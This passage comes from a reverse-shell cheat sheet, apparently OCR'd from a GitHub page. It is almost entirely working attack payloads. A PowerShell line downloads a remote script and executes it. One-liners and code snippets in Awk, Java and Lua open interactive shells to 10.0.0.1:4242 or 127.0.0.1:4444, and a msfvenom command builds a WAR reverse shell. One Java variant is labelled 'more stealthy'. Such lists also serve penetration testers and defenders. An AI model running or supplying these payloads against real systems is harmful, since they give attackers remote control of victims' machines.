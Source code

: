 - powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')


### Awk

- awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null


### Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

#### Java Alternative 1

String host="127.0.0.1";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

Java Alternative 2

NOTE: This is more stealthy

Thread thread = new Thread(){
    public void run(){
        // Reverse shell here
    }
}
thread.start();




### War

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
strings reverse.war | grep jsp # in order to get the name of the file





### Lua

Linux only

lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
